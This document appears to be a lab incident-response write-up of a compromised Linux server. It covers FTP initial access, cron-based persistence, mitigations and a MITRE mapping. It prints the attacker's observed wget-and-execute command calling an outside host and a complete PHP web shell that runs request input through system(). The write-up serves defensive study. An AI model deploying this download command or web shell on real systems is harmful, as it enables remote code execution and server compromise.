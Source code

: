 # Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

### Commands Executed

| Purpose | Command |
|---|---|
| Identify successful FTP authentications | `journalctl \| grep -i "ftp" \| grep -i "success"` |
| Inspect `/tmp` activity | `journalctl \| grep -i /tmp` |
| Find files modified within time window | `find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null` |
| Review activity for account `ftpadam` | `journalctl \| grep ftpadam \| grep "110.44.125.139"` |

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
![FTP](./images/FTP.png)  

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`


- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.
![Shell Script](./images/Shell_Script.png)
![Cron Job](./images/Cron_Job.png)      

### Remote code execution via web shell
A PHP file was found, the snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user

Snippet observed:
`<?php 
if(isset($_REQUEST["z"])) {
  echo "<pre>"; 
  $z = ($_REQUEST["z"]); 
  system($z); 
  echo "</pre>"; 
  die; 
}
?>`

### Last Activity
The attacker’s last observed activity occurred at Sept 3, 2021 – 09:25:25.
![Last Activity](./images/last_activity.png)   


## Mitigation Recommendations

1. **Isolate the host**
   - Remove network access (or block egress) immediately to prevent further communication with attacker infrastructure.

2. **Block IOCs**
   - Block IP `110.44.125.139` and related domains (e.g., `crest.tt`) at the firewall and proxy level.
   - Add domain/IP/file-hash IOCs to IDS/IPS rules and endpoint detection lists.

3. **Reimage the host**

4. **Credential rotation & access hardening**
   - Rotate all credentials used on the host (service accounts, SSH keys, API tokens) and invalidate sessions for compromised accounts (e.g., `ftpadam`).
   - Enforce MFA where possible and tighten access control (limit who can create cron entries / upload files).

5. **Post‑reimage validation & monitoring**
   - Deploy monitoring agents (EDR/agent and Zeek/Suricata) and centralize logs to the SIEM.
   - Apply detection rules tuned to the indicators observed (wget/curl from /tmp, new root cron entries, web shell patterns).
   - Monitor the network for any signs of the attacker attempting to re-contact the environment.

6. **Environment-wide hunt**
   - Search other hosts for the same IOCs (domain, IP, file hashes, suspicious cron entries).
   - Check authentication logs for lateral movement attempts or reused credentials.

7. **Remediation follow-ups**
   - Patch or replace legacy services (disable FTP or replace with SFTP/FTPS), and harden web applications to prevent file uploads or RCE.
   - Conduct a post-incident review to update playbooks and detection rules.


## MITRE ATT&CK Mapping

| Tactic         | Technique                         | ID            |
| -------------- | --------------------------------- | ------------- |
| Initial Access | Exploit via Remote Services (FTP) | **T1133**     |
| Persistence    | Scheduled Task/Job (Cron)         | **T1053.003** |
| Execution      | Command Execution via Web Shell   | **T1505.003** |


